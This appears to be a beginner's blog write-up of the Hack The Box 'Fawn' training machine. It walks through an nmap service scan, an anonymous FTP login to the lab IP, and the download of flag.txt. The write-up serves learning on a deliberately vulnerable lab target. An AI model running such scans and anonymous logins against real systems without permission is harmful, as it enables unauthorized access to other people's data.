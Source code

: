 # 🦌 Fawn | Hack The Box

> _Note: I’m not an expert. I’m writing this blog just to document my learning journey. 🚀_

---

### 🎯 Step 1: Setup

I connected to the Hack The Box VPN, then spawned the **Fawn** target machine and got its IP address:

```
10.129.197.22
```

---

### 🔍 Step 2: Scanning with Nmap

I ran an Nmap scan on the machine:

```bash
nmap -sV -sC -Pn 10.129.197.22
```

**Nmap output:**

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
```

Only **port 21 (FTP)** is open, and **anonymous login is allowed**. I also noticed a file named `flag.txt` is accessible via FTP!

---

### ❓ What is FTP?

> **FTP (File Transfer Protocol)** is used to transfer files between a client and server over a network.
> It typically runs over **TCP**, not **UDP**, because file transfers need to be reliable and complete.

---

### 🛠️ Step 3: FTP Access

At first, when I tried to use `ftp`, I got an error:

```
command not found
```

So I installed the FTP client:

```bash
sudo apt install ftp
```

Then I connected to the target using **anonymous login**:

```bash
ftp 10.129.197.22

Name: anonymous
Password: [just press Enter]
```

Once logged in, I listed the files:

```bash
ls
```

Output:

```
flag.txt
```

Then I downloaded the file:

```bash
get flag.txt
```

---

### 🏁 Step 4: Capture the Flag

After downloading, I viewed the flag:

```bash
cat flag.txt
```

🎉 **Root Flag Captured!**

---

### 📚 Summary

- **Service found**: FTP on port 21
- **Vulnerability**: Anonymous login allowed
- **Exploit**: Connect and download the `flag.txt` file via FTP

---

### 🚀 Final Thoughts

This was a simple but great beginner-friendly machine that teaches:

- Basic Nmap scanning
- FTP concepts
- Anonymous access exploitation

---

📝 _Happy hacking!_

---
